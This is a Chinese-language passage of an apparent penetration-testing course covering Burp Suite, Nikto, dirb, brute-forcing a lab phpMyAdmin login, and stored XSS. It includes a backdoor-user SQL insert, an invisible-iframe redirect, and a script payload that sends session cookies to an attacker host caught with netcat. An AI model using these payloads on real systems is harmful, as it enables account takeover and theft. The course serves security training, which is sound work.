如果我们点击 *Repeater*，我们会看到一个子标签页，请求位于窗口的左侧。我们可以将多个请求发送到 Repeater，它会将其显示在不同的标签页上。我们可以通过点击 *Send* 将请求发送到服务器。


*图 115：Burp Suite Repeater*

Burp Suite 将在窗口右侧显示原始的服务器响应，其中包括响应标头和未渲染的响应内容。


*图 116：包含请求和响应的 Burp Suite Repeater*

Web 应用程序利用通常需要进行大量的尝试和错误，我们要提交和修改请求并监控响应。Repeater 对此非常有用，因为我们可以快速调整请求的元素并重新发送，而无需等待浏览器渲染每一个响应。

### 9.3.4 Nikto

Nikto 是一个高度可配置的开源 Web 服务器扫描器，它可以测试数千个危险的文件和程序、易受攻击的服务器版本以及各种服务器配置问题。它的性能很好，但它并非为隐蔽性设计，因为它会发送许多请求，并在 `User-Agent` 标头中嵌入有关自身的信息。
Nikto 可以扫描多个服务器和端口，并尽可能扫描其发现的页面。在内容较多的网站上，例如电子商务网站，Nikto 扫描可能需要几个小时才能完成。我们有两个选项来控制扫描持续时间。最简单的选项是设置 `--maxtime` 选项，它将在指定的时间限制后停止扫描。这并不以任何方式优化扫描。Nikto 只是停止扫描。我们的第二个选项是通过 `-T` 选项调整扫描。我们可以使用此功能来控制我们要运行的测试类型。有时我们不想运行 Nikto 内置的所有测试，例如验证是否存在某类漏洞。在这些情况下，调整扫描非常有价值。
Nikto 对于捕获低级错误（low-hanging fruit）、报告非标准服务器标头以及捕获服务器配置错误特别有用。
为了演示这一点，让我们对 `www.megacorppone.com` 运行 Nikto。我们将指定我们要扫描的主机（`-host=http://www.megacorppone.com`），并且为了演示的目的，我们将使用 `--maxtime=30s` 将扫描持续时间限制为 30 秒：

```
```


`kali@kali:~$ nikto -host=http://www.megacorppone.com --maxtime=30s`

```
- Nikto v2.1.6

+ Target IP: 38.100.193.76

+ Target Hostname: www.megacorppone.com

+ Target Port: 80

+ Server: Apache/2.2.22 (Ubuntu)

+ Server may leak inodes via ETags, header found with file /, inode: 152243, size: 12519, mtime: Fri May 17 06:26:28 2019

+ The anti-Clickjacking X-Frame-Options header is not present.

+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS

+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type

+ No CGI Directories found (use '-C all' to force check all possible dirs)

+ ".robots.txt" contains 1 entry which should be manually viewed.

+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.

+ ERROR: Host maximum execution time of 30 seconds reached

+ ERROR: Host maximum execution time of 30 seconds reached

+ Scan terminated: 0 error(s) and 6 item(s) reported on remote host

+ End Time: 2019-06-05 11:22:35 (GMT-4) (31 seconds)

+ 1 host(s) tested
```

*列表 283 - 对 www.megacorppone.com 运行 nikto*

尽管我们限制了扫描持续时间，但列表 283 中的输出仍提供了一些有趣的信息。例如，它识别出服务器上运行的 Apache 版本已过时，并且已到达生命周期结束（end-of-life）。

在这个简短的介绍中，我们只演示了 Kali Linux 中可用工具的一小部分，但我们之前涵盖的工具将很好地服务于本模块剩余部分的演示。

### 9.3.4.1 练习

1. 花些时间查看 Kali Linux 中 Web Application Analysis 菜单下可用的应用程序。

### 9.4 利用基于 Web 的漏洞

现在我们已经涵盖了枚举，并了解了如何使用一些基本工具，我们将把注意力转向漏洞利用。在本节中，我们将讨论基于 Web 的管理控制台，并关注特定漏洞，如跨站脚本（XSS）、目录遍历、文件包含、SQL 注入等。

#### 9.4.1 利用管理控制台

让我们从管理控制台的枚举和利用开始。一旦我们定位到一个管理控制台，最简单的“利用”就是登录它。我们可以尝试默认的 `username/password` 对，使用枚举的信息来猜测有效的凭据，或者尝试暴力破解。

然而，对于暴力破解，轻微的操作通常是最好的。账户锁定会对我们的渗透测试产生负面影响，会阻止合法的管理员，并可能向蓝队（防守方）发出我们存在的警报。一如既往地，我们必须仔细权衡每种攻击向量的风险，并谨慎行事，以符合客户利益的最佳方式行动。

尽管存在这些风险，被攻陷的管理控制台是一个主要目标，它可能允许我们在服务器上部署和运行代码，这可以提供快速获得 shell 的路径。

为了演示这一点，我们将通过一个针对安装在我们 Windows 10 目标上的配置不当的管理控制台的攻击示例进行讲解。请注意，本模块其余部分中使用的 IP 地址可能与您的实验环境不匹配。请参阅实验指南以获取分配的 IP 地址。

首先，我们将通过打开 XAMPP 控制面板并点击 Apache 和 MySQL 的“开始”按钮来配置 Windows 10 目标。


> 图 117：XAMPP 控制面板

接下来，我们将在 Kali Linux 上运行 **`dirb`**，目标指向我们的 Windows 10 机器。

```
kali@kali:--$ dirb http://10.11.0.22 -r

...

URL_BASE: http://10.11.0.22/

WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

OPTION: Not Recursive

------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.11.0.22/ ----

...

+ http://10.11.0.22/lpt1 (CODE:403|SIZE:1047)

+ http://10.11.0.22/lpt2 (CODE:403|SIZE:1047)

+ http://10.11.0.22/nul (CODE:403|SIZE:1047)

==> DIRECTORY: http://10.11.0.22/phpmyadmin/

+ http://10.11.0.22/prn (CODE:403|SIZE:1047)

+ http://10.11.0.22/robots.txt (CODE:200|SIZE:79)

...
```

> 列表 284 - 在我们的 Windows 10 实验室机器上运行 dirb

输出结果列出了几个有趣的 URL，其中包括高亮显示的 phpMyAdmin 引用，phpMyAdmin 是 MySQL 数据库的管理工具，这一点特别值得关注。

在浏览器中输入相应的 URL 会生成一个 phpMyAdmin 登录页面：


> 图 118：phpMyAdmin 登录页面

简单的互联网搜索表明，phpMyAdmin 的默认登录凭据包括用户名为“root”且密码为空白。让我们尝试用这个凭据攻击我们的 Windows 10 目标：


> 图 119. phpMyAdmin 错误信息

如果我们尝试这些凭据，会收到一条错误信息，提示“配置禁止无密码登录”。这是因为在 phpMyAdmin 配置文件（`C:\xampp\phpMyAdmin\config.inc.php`）中，“AllowNoPassword”被设置为 False。在这种配置下，我们需要包含密码才能登录，因此可以合理假设密码不是空白的。如果我们想获得访问权限，不得不尝试其他方法。

### 9.4.1.2 Burp Suite 入侵者工具

既然默认凭据似乎不起作用，且不允许空密码，让我们尝试使用 Burp Suite 的 Intruder[^252] 工具来自动化一些基本的用户名和密码组合。请记住，Burp 社区版对此功能进行了时间限制。尽管如此，我们仍然可以使用它来解释一些重要的概念。

[^252]: (PortSwigger, 2019), https://portswigger.net/burp/documentation/desktop/tools/intruder/using

让我们从浏览器发送几次手动登录尝试，并在 Burp Suite 中查看响应。我们在下面的截图中合并了三个请求：

```
POST /phpmyadmin/index.php HTTP/1.1

Host: 10.11.0.22

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Length: 134
```


```
Content-Type: application/x-www-form-urlencoded

Cookie: phpMyAdmin=d092dd6dd2c235b7nosq180te265n; pma_lang=en

Connection: close

Upgrade-Insecure-Requests: 1

set_session=d092bq94db2c235b7nosq180te265npma_username=root&pm

a_password=test&server=1&target=index.php&token=65dcrJ0MfT0To7sZ2SB

POST `/phpmyadmin/index.php` HTTP/1.1

Host: 10.11.0.22

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate
```

```
Content-Type: application/x-www-form-urlencoded

Content-Length: 146

Cookie: phpMyAdmin=494hu2djjn8d8esc5cpl6o1gnsjn6bdu; pma_lang=en

Connection: close

Upgrade-Insecure-Requests: 1

set_session=494hu2djjn8d8esc5cpl6o1gnsjn6bdu&pm

a_username=root&pm

a_password=test2&server=1&target=index.php&token=42J3jP9N%C6%25C2%5D%7EC2%B5%7C2CU8D

POST `/phpmyadmin/index.php` HTTP/1.1

Host: 10.11.0.22

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate
```

```
Content-Length: 138

Content-Type: application/x-www-form-urlencoded

Cookie: phpMyAdmin=9kr0nsla35tu12d7i5rg80d0w4nghq; pma_lang=en

Connection: close

Upgrade-Insecure-Requests: 1

set_session=9kr0nsla35tu12d7i5rg80d0w4nghqpma_username=root&pm

a_password=test3&server=1&target=index.php&token=%0k46Tt28F40Z18jD_CVX2VJ8

POST `/phpmyadmin/index.php` HTTP/1.1

Host: 10.11.0.22

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate
```


根据输出结果，这个测试可能并不像表面看起来那么简单，因为我们有几个因素需要应对。正如我们从请求中看到的，登录表单包含一个 `token`[^253]，以防止暴力破解和其他攻击。此外，我们可以看到表单设置了一个 `set_session` 参数，它对每个请求都是唯一的。

[^253]: (Wikipedia, 2019). https://en.wikipedia.org/wiki/Cross-site_request_forgery#Synchronizer_token_pattern

如果我们更改 `set_session` 参数，且其值与 `phpMyAdmin` cookie 的值不匹配，网站将返回错误：


> *图 121：phpMyAdmin 针对不匹配会话值的错误信息*

如果我们想要成功登录，就需要避免这种错误。如果我们查看登录表单的 HTML 源代码，我们会发现新的 `_set_session` 和 `token` 值包含在响应中：

### 响应


为了克服这种保护机制并确保数值匹配，我们可以使用 `Intruder` 自动化请求。

然而，我们首先必须提交一个登录请求供 `Intruder` 分析。我们可以通过导航至 `Proxy > HTTP History`，右键点击发往 `/phpmyadmin/index.php` 的 `POST` 请求，然后选择“发送到 `Intruder`”来完成此操作。


> *图 123：发送到 Intruder*

现在，当我们点击 *Intruder* 选项卡时，我们发现它包含多个请求子选项卡。在这些子选项卡下，我们将找到四个额外的子选项卡：*Target、Positions、Payloads 和 Options*。让我们从 *Target* 开始检查这些选项卡。


> *图 124：Intruder 目标*

此选项卡上的信息是根据请求预填的，因此我们将保持这些值不变。

接下来，让我们查看 **Positions** 选项卡的内容：


> *图 125：Intruder 位置*

我们使用此选项卡来标记我们希望 Burp Suite 在运行攻击时注入 payload 的字段。Burp Suite 会使用分节符号（§）作为分隔符，自动标记 cookie 值和 POST 主体值作为 payload 位置。然而，我们不想使用所有这些默认位置，因此我们将使用 **Clear §** 清除它们。

我们将保留 `pma_username` 设置为 `"root"`，因为这是我们的目标用户账户。还有四个其他值，我们需要修改它们以提交登录尝试。我们将通过选择 `pma_password` 的值并点击 **Add §** 来插入实际尝试的密码。`phpMyAdmin` cookie 值和 `set_session` post 主体值在每个请求中都会变化，因此我们需要将它们也添加为 payload 位置。最后，`token` 值在每个请求中也会变化以防止暴力破解，因此我们需要选择其值并点击 **Add §**。

我们将 **Attack type** 设置为 `"Pitchfork"`，这允许我们为每个位置设置唯一的 payload 列表。这是为了考虑我们想要发送的 payload 值差异所必需的。Pitchfork 攻击会将每个列表中的第一个值放入各自的位置，然后发送请求。下一个请求将使用每个列表中的第二个值，依此类推。Intruder 中还有几种其他攻击类型，但我们在这里不会审查它们。


配置此处所需的 `"Pitchfork"` 攻击及其 payload 可能会让人感到有些困惑。请务必在阅读完整个部分后再尝试跟随操作。

我们需要在 *Options* 选项卡上配置一些 payload，然后才能使用它们，因此我们将暂时跳过 *Payloads* 选项卡。我们需要一种能够从响应中提取值并将其注入到下一个请求的工具。Burp Suite 包含一个 `"Recursive grep"` payload，它使用 `grep` 搜索响应中的预定义值，并将结果提供给下一个请求。这正是我们需要用来设置 `phpMyAdmin` cookie 值、`set_session` post 主体值以及 `token` 字段的方法。

[^1]: (PortSwigger, 2019), https://portswigger.net/burp/documentation/desktop/tools/intruder/positions#attack-type

[^2]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Grep

让我们点击 *Options*，然后点击 *Add* 来开始配置我们的第一个递归 Grep 载荷。


图 127：添加 Grep 提取

这将打开一个新窗口，其中包含一个 HTTP 响应，我们可以用它来定义我们要提取的项目的位置。我们不想使用“Set-Cookie”头来提取会话值，因为服务器设置了多个 `phpMyAdmin` cookie 实例，而 Burp 总是使用它找到的第一个实例。我们需要在 HTTP 响应窗口中向下滚动，找到登录表单中的 `set_session` 隐藏输入字段。

我们将点击并选择该输入字段的值。当我们这样做时，Burp 会自动设置“Start after expression”（在表达式后开始）和“End at delimiter”（在分隔符处结束）值，以定义如下的 grep 提取分隔符。


*图 128：定义会话的 Grep 提取*

我们将点击 *Ok* 保存该提取，然后通过点击 *Add from Intruder > 2 > Options* 定义另一个提取。

这次我们需要选择 `token` 字段的内容：


同样，我们将点击 Ok 保存第二个提取。

现在我们已经定义了“递归 Grep”载荷，我们需要通过点击“Payloads”标签页来设置我们的载荷。我们将总共设置四个载荷。每个我们标记的位置都有一个载荷集值，它们按顺序与位置匹配。换句话说，第一个设置用于会话 cookie，第二个设置用于会话字段，第三个设置是密码字段，第四个设置用于 token 字段。

载荷集一 是 `phpMyAdmin` 会话 cookie 值。我们需要选择“Recursive Grep”作为类型，然后点击 `From _L_session" value="` 到 `" />Log]` 作为我们的载荷选项。


*图 130：设置载荷值*

载荷集二 是 `set_session` 值。它需要匹配 `phpMyAdmin` cookie 的值，因此我们将使用与载荷集一相同的设置——类型为“Recursive Grep”，载荷选项为 `From _L_session" value="` 到 `" />Log]`。

载荷集三 是密码值。我们将配置它使用“Simple list”载荷类型。如其名称所示，这种载荷类型使用简单的字符串列表。我们可以通过在文本框中手动输入密码并点击 Add 来向列表中添加值。我们将重复此操作以输入几个常见的密码。


图 131：输入密码

最后，载荷集四 是 `token` 值。我们将再次使用“Recursive grep”载荷类型，载荷选项为 From `[`.php` />*<input type="hidden" name="token" value="1" />* fieldset->)。


我们已经执行了若干设置步骤，所以在开始攻击之前，让我们回顾一下我们所做的。

我们在 Positions 标签页上应该标记了四个位置：`phpMyAdmin` cookie 的值以及 POST 请求体中 `set_session`、`prma_password` 和 `token` 参数的值。


我们的第一个和第二个设置的载荷是使用会话提取载荷的“Recursive grep”。我们第三个设置的载荷是使用弱密码的“Simple list”。最后，我们第四个设置的载荷再次是“Recursive grep”，但使用的是 token 提取载荷。


一旦我们验证了这些设置，我们将点击 **Start attack** 按钮。这会显示以下消息。


演示版本的 Intruder 对于此演示运行良好，因此我们将点击 Ok 开始攻击，发送请求，并将我们标记的每个位置替换为相应的载荷值。Burp Suite 将打开一个新窗口显示结果：


如果一切配置正确，一个请求将触发 302 响应，这使得它区别于其他 200 响应。此条目还包含一个“pmaAuth-1” cookie，这似乎表明登录成功。根据输出，Burp Suite 能够以 root 用户身份和密码为“root”登录。我们可以在浏览器中手动验证这一点：


*图 137：phpMyAdmin 控制台*

这个例子可能看起来有点不寻常，但在现实世界中，弱密码或可预测的密码仍然过于普遍，这个演示过程肯定会在更复杂的现实世界示例中起作用。

我们可以使用我们对 phpMyAdmin 的访问权限直接针对数据库执行任意 SQL 查询。如果我们点击 SQL，我们可以编写自己的 SQL 查询。我们将在本模块后面更详细地介绍 SQL，但现在，我们将输入 `"select * from webappdb.users;"` 作为我们的查询，以检索 webappdb 数据库中 users 表中的所有数据。


图 138：通过 phpMyAdmin 执行查询

点击 Go 后，我们获得查询的结果，包括明文密码。


*图 139：通过 phpMyAdmin 查看查询结果*

我们不仅可以查询数据库并查看表内容，我们还可以向数据库插入数据。

让我们通过点击 *Show query* 框并输入 `"insert into webappdb.users(password, username) VALUES ("backdoor", "backdoor")."` 来创建一个新用户。此查询将添加一个名为 `"backdoor"`、密码为 `"backdoor"` 的新用户。


*图 140：插入新的管理员用户*

接下来，我们将点击 **Go** 运行查询。页面将更新并显示 `"1 row inserted"`。


*图 141：查询结果*

我们可以通过点击 Show query 框，输入“`select * from webappdb.users;`”，然后点击 Go 来验证用户是否已添加。这应该返回三条记录：


这只是一个简短的例子，展示了使用 phpMyAdmin 和 SQL 查询我们可以做什么。我们将在本模块后面进一步探讨，演示 SQL 注入以及如何将 SQL 查询访问权限利用为服务器上的 shell。

## 9.4.1.3 练习

- 使用 Burp Intruder 获取运行在您 Windows 10 实验机器上的 phpMyAdmin 站点的访问权限。
- 向“users”表中插入一个新用户。

## 9.4.2 跨站脚本 (XSS)

一个防御良好的 Web 应用程序最重要的特征之一是数据净化，这是一个处理用户输入的过程，其中移除或转换所有危险的字符或字符串。未净化的数据允许攻击者注入并可能执行恶意代码。当这种未净化的输入显示在 Web 页面上时，这就创建了一个跨站 *脚本* (XSS) 漏洞。

曾经被认为是一种相对较低风险的漏洞，如今 XSS 既存在高风险又非常普遍，允许攻击者向其他用户查看的 Web 页面注入客户端脚本，如 JavaScript。

有三种跨站脚本变体：存储型、*反射型* 和基于 DOM 的。

*存储型 XSS 攻击*，也称为*持久型 XSS*，发生在利用载荷存储在数据库中或以其他方式被服务器缓存时。Web 应用程序随后检索此载荷并将其显示给查看易受攻击页面的任何人。因此，单个存储型 XSS 漏洞可以攻击该网站的所有用户。存储型 XSS 漏洞通常存在于论坛软件中，特别是在评论区或产品评论中。

*反射型 XSS 攻击* 通常包括在构造的请求或链接中的载荷。Web 应用程序获取此值并将其放入页面内容中。此变体仅攻击提交请求或查看链接的人。反射型 XSS 漏洞通常发生在搜索字段和结果中，以及任何用户输入包含在错误消息中的地方。

*基于 DOM 的 XSS 攻击* 与其他两种类型相似，但仅发生在页面的文档对象模型 (DOM) 内部。我们在这一点上不会深入太多细节，但浏览器解析页面的 HTML 内容并生成内部 DOM 表示。JavaScript 可以以编程方式与此 DOM 交互。

此变体发生在页面的 DOM 被用户控制的值修改时。基于 DOM 的 XSS 可以是存储型或反射型。关键区别在于，基于 DOM 的 XSS 攻击发生在浏览器解析页面内容并执行插入的 JavaScript 时。

无论 XSS 载荷如何交付和执行，注入的脚本在查看受影响页面的用户上下文中运行。也就是说，是用户的浏览器，而不是 Web 应用程序，执行 XSS 载荷。尽管如此，这些攻击可能会产生重大影响，导致会话劫持、强制重定向到恶意页面、以该用户身份执行本地应用程序等。在以下章节中，我们将探索其中一些攻击。

### 9.4.2.1 识别 XSS 漏洞

通过检查 Web 应用程序并识别接受未净化输入的输入字段（如搜索字段），这些输入作为后续页面的输出显示，我们可以找到 XSS 的潜在入口点。

一旦我们确定了一个入口点，我们可以输入特殊字符，并观察输出，看是否有任何特殊字符未经验证即返回。

- 256 (Wikipedia, 2019). https://en.wikipedia.org/wiki/Data_validation
- 257 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Cross-site_scripting
- 258 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Cross-site_scripting#Persistent_(or_stored)
- 259 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Cross-site_scripting#Non-persistent_(reflected)
- 260 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Cross-site_scripting#Server-side_versus_DOM-based_vulnerabilities
- 261 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Document_Object_Model

用于此目的最常见的特殊字符包括：


< > ' " { } ;

```

*列表 285 - HTML 和 JavaScript 中的特殊字符*

让我们描述一下这些特殊字符的用途。HTML 使用“<”和“>”来表示元素^262，即构成 HTML 文档的各个组件。JavaScript 在函数声明中使用“（”和“）”。单引号（'）和双引号（"）用于表示字符串，而分号（;）用于标记语句的结尾。

如果应用程序没有移除或编码这些字符，它可能会易受 XSS 攻击，因为这些字符可用于向页面中引入代码。

> 虽然存在多种编码类型，但在 Web 应用程序中我们最常遇到的是 HTML 编码^263 和 URL 编码。^264 URL 编码有时也称为百分号编码，用于将 URL 中的非 ASCII 字符进行转换，例如将空格转换为“%20”。

> HTML 编码（或字符引用）可用于显示通常具有特殊含义的字符，如标签元素。例如，`&lt;` 是“<”的字符引用。遇到这种编码时，浏览器不会将该字符解释为元素的开始，而是原样显示实际字符。

如果我们能够将这些特殊字符注入到页面中，浏览器会将它们视为代码元素。然后，我们就可以开始构建将在受害者浏览器中执行的代码。

根据我们的输入被包含的位置不同，我们可能需要不同的字符集。例如，如果我们的输入被添加到 div 标签之间，我们需要包含自己的 `script` 标签^265，并且需要能够作为有效负载的一部分注入“<”和“>”。如果我们的输入被添加到现有的 JavaScript 标签内部，我们可能只需要引号和分号来添加我们自己的代码。

### 9.4.2.2 基础 XSS

让我们通过针对我们的 Windows 10 实验机器的一次简单攻击来演示基础 XSS。

回到运行在我们 Windows 10 实验机器 80 端口上的 Web 应用程序，我们将像之前一样通过 XAMPP 启动 Apache 和 MySQL，然后浏览主 Web 页面：


*图 143：墨西哥夹饼。美味的墨西哥夹饼。*

该应用程序包含几个漏洞，包括一个存储型 XSS 漏洞。为了演示这一点，我们可以在反馈表单字段中插入几个特殊字符并提交。我们将首先提交一些 *JavaScript* 特有的字符：双引号（*），分号（;），`<` 和 `>`。


*图 144：测试 XSS*

在检查器工具中审查生成的消息，我们可以看到我们的字符未被移除或编码：


由于输入没有被过滤或消毒，且我们的特殊字符已传递到输出中，存在 XSS 漏洞的条件似乎已经具备。让我们检查源代码以更好地理解正在发生的事情。

当反馈提交到站点时，由以下代码处理：

```php
36  <?php
37  include "database.php";
38  $sql = "INSERT INTO feedback(name, text) VALUES (?,?)";
39  $stmt = $conn->prepare($sql);
40  $stmt->bind_param("ss", $_POST['name'], $_POST['comment']);
41  $stmt->execute();
42  ?>
```

列表 286 中的第 40 行处理提交到服务器的 "name" 和 "comment" 字段的值。代码将这些值未经任何修改直接插入到数据库中。

接下来，我们将检查在站点上显示反馈的代码：

```php
38 <?php
39 include "database.php";
40 $sql = "SELECT name, text FROM feedback";
41 $result = $conn->query($sql);
42 if ($result->num_rows > 0) {
43 while($row = $result->fetch_assoc()) {
44 echo "<tr><td> " . $row["name"]. "</td><td>" . $row["text"]. "</td></tr>";
45 }
46 } else { echo "No results :{"; }
48 ?>
```

*列表 287 - feedback.php 的代码摘录*

列表 287 中的第 44 行将数据库的结果写入页面。结果确实未经任何修改就被输出。

> 应该在何处对数据进行消毒？是在提交时还是在显示时？理想情况下，数据应在两处都进行消毒。在两处都进行消毒是“纵深防御”^266的一个例子，这是一种主张尽可能添加防御层的安全实践和原则。这往往能创建更健固的应用程序。然而，如果只在其中一处应用消毒，则应保持一致性。在 PHP 中，可以使用 `htmlspecialchars`^267 函数在显示字符串之前将关键字符转换为 HTML 实体。在我们查看的两个 PHP 文件中的任何一个中使用此函数都有助于防止此 XSS 漏洞。

^266 (Wikipedia, 2019). https://en.wikipedia.org/wiki/Defense_in_depth_(computing)

^267 (The PHP Group, 2019). https://php.net/manual/en/function.htmlspecialchars.php

让我们更新输入并创建一个显示简单 *Javascript* `alert` 的有效负载。根据我们审查的代码，我们可以看到我们的消息被插入到 HTML 表格单元格中。这里不需要任何花哨的编码技巧，只需要像 `"<script>alert('XSS')</script>"` 这样基本 XSS 有效负载即可。让我们现在插入它。


提交我们的有效负载后，刷新反馈页面应该执行我们注入的 JavaScript：


很好。我们将跨站脚本有效负载注入了 Web 应用程序的数据库中，它将提供给任何查看该站点的人。简单的 alert 窗口是跨站脚本所能实现的功能中相当琐碎的例子，所以让我们尝试一些更有趣的内容。

### 9.4.2.3 内容注入

XSS 漏洞通常用于投递客户端攻击，因为它们允许将受害者的浏览器重定向到攻击者选择的位置。重定向的一种隐蔽替代方法是将不可见的 `iframe`^268 注入到我们的 XSS 有效负载中，如下所示：

```html
<iframe src=http://10.11.0.4/report height="0" width="0"></iframe>
```

*列表 288 - 使用 iframe 投递 XSS 有效负载*

`iframe` 用于在当前 HTML 文档中嵌入另一个文件，例如图像或另一个 HTML 文件。在我们的情况下，“report” 是链接在我们攻击机器上的一个文件，由于高度和宽度被设置为零，所以该 `iframe` 是不可见的。

一旦提交了此有效负载，访问该页面的任何用户都将连接回我们的攻击机器。为了测试这一点，我们可以在攻击机器（本例中为 10.11.0.4）的 80 端口上创建一个 Netcat 监听器，然后刷新反馈页面。

```bash
kali@kali:~$ sudo nc -nvlp 80
[sudo] password for kali:
listening on [any] 80 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 41612
GET /report HTTP/1.1
Host: 10.11.0.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.11.0.22/feedback.php
...
```


^268 (Mozilla, 2019). https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe


如上所述，浏览器重定向起作用了，通过 `iframe` 将受害者浏览器发送到了我们的攻击机器。同样，受害者不会在浏览器中看到零大小的 `iframe`。

我们可以走得更远，将受害者浏览器重定向到客户端攻击或信息收集脚本。

为了做到这一点，我们首先需要捕获受害者的 `User-Agent` 头，以帮助识别他们正在使用的浏览器类型。在上面的例子中，我们使用 `Netcat`，因为它向我们显示浏览器发送的完整请求，包括 `User-Agent` 头。`Apache HTTP Server` 默认也会在 `/var/log/apache2/access.log` 中捕获 `User-Agent` 头。

我们不会在这里执行任何客户端攻击。相反，我们将尝试以管理用户身份访问该 Web 应用程序。

### 9.4.2.4 窃取 Cookie 和会话信息

如果应用程序使用不安全的会话管理配置，我们还可以使用 XSS 来窃取 `cookie`[^269] 和会话信息。如果我们能窃取经过身份验证的用户的 `cookie`，我们就可以在目标网站内冒充该用户。

为了提供一些背景知识，网站使用 `cookie` 来跟踪状态[^270]和用户信息。`Cookie` 可以设置多个可选标志，其中有两个对渗透测试者特别感兴趣：`Secure` 和 `HttpOnly`。

`Secure`[^271] 标志指示浏览器仅通过加密连接（如 HTTPS）发送 `cookie`。这保护了 `cookie` 以免以明文形式发送并在网络上被捕获。

`HttpOnly`[^272] 标志指示浏览器拒绝 JavaScript 访问该 `cookie`。如果未设置此标志，我们可以使用 XSS 有效负载来窃取 `cookie`。

然而，即使未设置此标志，我们也必须绕过一些其他的浏览器控制，因为浏览器安全规定由一个域设置的 `cookie` 不能直接发送到另一个域。顺便一提，通过 `Set-Cookie` 指令中的 `Domain` 和 `Path` 标志，这可以放宽为子域名。作为变通方法，如果 JavaScript 可以访问 `cookie` 值，我们可以将其用作链接的一部分，并发送该链接，我们可以分解该链接以检索 `cookie` 值。

让我们尝试一个例子来演示这是如何工作的。我们的示例应用程序在管理员用户登录时会设置一个 `PHPSESSID` `cookie`。应用程序使用该 `cookie` 来确定用户是否

[^269] (Wikipedia, 2019), https://en.wikipedia.org/wiki/HTTP_cookie

[^270] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Session_(computer_science)

[^271] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Secure_cookie

[^272] (Mozilla, 2019), https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies

已完成身份验证。如果修改我们的有效载荷，我们可以捕获受害者的 `PHPSESSID` `cookie`，从而获取其已认证会话的访问权限。

我们将使用 JavaScript 读取该 `cookie` 的值，并将其附加到一个链接回我们攻击机的图片 URL 中。浏览器将读取该 `image` 标签，并将受害者的 `cookie` 作为 URL 查询字符串的一部分，向我们的攻击系统发送一个 GET 请求。

为了实现我们的 `cookie` 窃取器，我们需要按如下方式修改我们的 XSS 有效载荷：

```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

*列表 290 - 用于窃取 cookie 的 XSS 有效载荷*

一旦我们将此有效载荷提交给应用程序，我们只需等待一个已认证用户访问该应用程序，以便我们窃取 `PHPSESSID` `cookie`。我们可以手动从我们的 Windows 10 实验室机器执行此操作，或者在 Windows 10 实验室机器上使用 PowerShell 脚本（`Documents/admin_login.ps1`）来模拟管理员用户登录：

```
$username="admin"
$password="p@ssw0rd"
$url_login="127.0.0.1/login.php"
$ie = New-Object -com InternetExplorer.Application
$ie.Visible = $true
$ie.navigate($url_login)
while($ie.ReadyState -ne 4){ start-sleep -m 1000}
$ie.document.getElementsByName("username")[0].value="$username"
$ie.document.getElementsByName("password")[0].value="$password"
start-sleep -m 10
$ie.document.getElementsByClassName("btn")[0].click()
start-sleep -m 100
$ie.Quit()
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($ie)
```

*列表 291 - admin_login.ps1*

该脚本创建一个 Internet Explorer 实例，导航至登录页面，登录，然后退出。这足以触发我们的 XSS 有效载荷。我们可以使用 `–ExecutionPolicy Bypass` 来临时允许未签名脚本，并使用 `–File admin_login.ps1` 指定要执行的脚本：

```
C:\Users\admin\Documents> powershell -ExecutionPolicy Bypass -File admin_login.ps1
```

*列表 292 - 运行 PS1 脚本*

当我们的受害者查看受影响的页面时，他们的浏览器将与我们就带有所认证会话 ID 值连接：

```
kali@kali:~$ sudo nc -nvlp 80
listening on [any] 80 ...
connect to [10.11.0.2] from (UNKNOWN) [10.11.0.22] 53824
GET /cool.jpg?output=PHPSESSID=ua19spmd8i3t1l19ac15m2tf176 HTTP/1.1
Referer: http://127.0.0.1/admin.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
...
```


*列表 293 - 使用 Netcat 接收 cookie*

既然我们已获得已认证的会话 ID，就需要在我们的浏览器中设置它。我们可以使用 `Cookie-Editor` 浏览器附加组件轻松设置和操作 cookie。

我们可以通过在 Firefox 中浏览到 `https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/` 并点击 **Add to Firefox** 来安装此附加组件：


图 148. Firefox 附加组件管理器

我们将点击 *Add* 接受权限对话框并安装该附加组件。此时，我们应该会在 Firefox 工具栏上看到一个新的 cookie 图标，位于 FoxyProxy 图标旁边。


*图 149: Cookie-Editor 快捷方式*

